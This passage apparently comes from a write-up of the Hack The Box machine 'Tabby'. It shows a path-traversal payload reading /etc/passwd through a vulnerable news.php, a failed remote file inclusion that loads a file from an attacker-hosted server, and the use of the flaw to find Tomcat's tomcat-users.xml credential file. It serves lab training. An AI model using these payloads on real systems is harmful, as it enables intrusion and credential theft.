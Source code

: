 `view-source:http://megahosting.htb/news.php?file=../../../../../../etc/passwd`

![Image of LFI](/images/htb/tabby/lfi-passwd-source.png)

### Testing for RFI (Remote File Inclusion)
Just in case we can also test for RFI (Remote FIle Inclusion) by creating a phpinfo() file, hosting it and trying to load it by replacing the `statement` in the url with the url path to the file.
```
echo '<?php phpinfo(); ?>' > info.php
python -m SimpleHTTPServer 80
http://megahosting.htb/news.php?file=http://10.10.14.142/info.php
```
Unfortunately it doesn't work.

### LFI Enumeration
When we looked at port 8080, we saw it mention about users stored in `/etc/tomcat9/tomcat-users.xml`. Looking there using the LFI exploit, we dont see anything so it's likely that it's installed elsewhere.

We know the operating system is linux, with the distro likely being Ubuntu as that's what nmap found based off of the OpenSSH verion. So searching online for the installation directories for Ubuntu Tomcat led me [here](https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory). After looking at a few directories I found the installation path to be `/usr/share/tomcat9` with the tomcat-users.xml file being in `/usr/share/tomcat9/etc/tomcat-users.xml`.
